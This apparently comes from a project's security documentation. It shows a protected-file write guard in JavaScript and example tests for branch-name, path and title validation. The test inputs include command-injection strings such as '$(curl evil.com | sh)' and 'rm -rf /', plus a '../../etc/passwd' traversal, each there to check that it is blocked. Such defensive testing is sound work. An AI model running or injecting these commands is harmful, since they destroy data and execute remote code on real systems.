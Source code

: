 ```javascript
// Protected Files (cannot be overwritten)
const PROTECTED_FILES = [
    '.git', '.gitignore', 
    'package.json', 'package-lock.json'
];

// Safe Write with Protection
function safeWriteFile(filePath, content, basePath) {
    const safeDest = safePath(filePath, basePath);
    const fileName = path.basename(safeDest);
    
    if (PROTECTED_FILES.includes(fileName)) {
        throw new Error('Cannot overwrite protected file');
    }
    
    fs.writeFileSync(safeDest, content, 'utf8');
}
```

## Security Test Suite

Run security tests:
```bash
npm test
```

Tests verify:
1. ✅ Branch name validation blocks injection
2. ✅ Title sanitization removes dangerous chars
3. ✅ Path traversal attempts are blocked
4. ✅ Schema validation enforces types
5. ✅ Command injection is prevented

### Example Test Cases

```javascript
// Command Injection Test
assert(!isValidBranchName('feature; rm -rf /'));
assert(!isValidBranchName('$(curl evil.com | sh)'));

// Path Traversal Test
assert.throws(() => {
    safePath('../../etc/passwd', '/project');
}, /Path traversal detected/);

// Sanitization Test
assert.strictEqual(
    sanitizeIssueTitle('Bug `rm -rf /` found'),
    'Bug rm -rf / found'  // Backticks removed
);
```
